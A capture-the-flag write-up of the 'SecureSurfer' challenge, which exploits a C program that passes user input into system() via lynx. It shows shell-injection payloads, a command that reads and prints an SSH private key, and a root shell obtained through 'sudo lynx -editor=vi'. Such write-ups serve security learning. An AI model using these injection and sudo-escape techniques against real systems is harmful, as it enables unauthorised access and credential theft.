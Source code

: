 # misc

## SecureSurfer
> Solved by : thewhiteh4t


- we are provided with SSH access and a C source code file
- it is a simple C program which contains some cases and a `surf` function
- surf function passes our input without much input validation to `lynx` a console based browser tool
- 5 options have predefined inputs but in 6th option we can provide our input

```c
    case 6:
                    {
                        char url[1024];
                        printf("Online URL: ");
                        fflush(stdout); 
                        fgets(url, sizeof(url), stdin);
                        url[strcspn(url, "\n")] = 0; // Remove newline character
    
                        if (strstr(url, "https://") == NULL) {
                            printf("\nWe are secure here at the SecureSurfer! You must use https:// !\n");
                        } else {
                            surf(url);
                        }
                    }


    void surf(const char *url) {
        char command[512];
        sprintf(command, "/usr/local/bin/lynx --accept_all_cookies -cache=0 -restrictions=all '%s'", url);
        system(command);
        system("stty sane");
    }
```

- only requirement is that our input should contain `https://`
- we can inject commands through our input by using `$()` and single quotes :

```
'$(id)'#https://
```

![](https://i.imgur.com/65qrdco.png)

- so we have command injection, kind of
- now let’s try to drop to a shell : 


![](https://i.imgur.com/VxLvFJH.png)

- we did get a shell but command output is blank, maybe due to how lynx works or some other reason but we can still explore and home dir of `securesurfer` contains a `.ssh` directory, so we can try to look for `id_rsa`


```
securesurfer@securesurfer:~$ cat .ssh/
authorized_keys  id_ecdsa         id_ecdsa.pub
```

- fortunately with lynx we can read files directly!

```
'$(~/.ssh/id_ecdsa)'#https://
```

```
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIIDx0ks2B22N69cy8Vyy2VrNPDdhYTQlKWdVFdanIvydoAoGCCqGSM49
AwEHoUQDQgAEJEgkMpKgbm52oJfCbDLXvX1b3ZWE6j+P5tOdrBH5n/aaRwwZqZtp
7C82/VWBuq6RkSRFspGSlqsgJNG4RHQIRA==
-----END EC PRIVATE KEY-----
```

- now we can directly login and skip the browser on login

```
chmod 600 id_ecdsa
ssh -p 31252 securesurfer@challenge.nahamcon.com -i id_ecdsa
```

![](https://i.imgur.com/NxkhvyI.png)



- after looking into lynx for sometime I came across a useful option : 

```
-editor=EDITOR    enable edit mode with specified editor
```

- on the target box `vi` was available so we can run lynx with sudo and vi as our editor and drop into edit mode and try to launch a bash shell
- we also need a local file for the editor

```
touch a
sudo lynx -editor=vi a
```

- after getting inside lynx we need to press `e` to launch edit mode where `vi` takes over
- and now we can simply use the following to get a shell : 

```
:!/bin/bash
```

![](https://i.imgur.com/gKgA9Cc.png)
